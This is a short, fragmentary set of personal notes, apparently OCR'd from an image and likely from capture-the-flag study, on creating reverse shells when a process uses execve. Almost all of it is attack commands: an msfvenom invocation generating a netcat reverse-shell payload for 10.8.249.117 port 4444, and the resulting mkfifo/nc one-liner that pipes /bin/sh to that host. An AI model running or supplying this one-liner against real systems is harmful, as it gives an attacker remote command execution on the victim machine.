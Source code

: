  ## we can create reverse shells using this when you h ave a proces using execve 
 
 msfvenom -p cmd/unix/reverse_netcat lhost=10.8.249.117 lport=4444 R >tmp   
 
 it creates a  
 [[research on ]]
 mkfifo /tmp/dopc; nc 10.8.249.117 4444 0</tmp/dopc | /bin/sh >/tmp/dopc 2>&1; rm /tmp/dopc 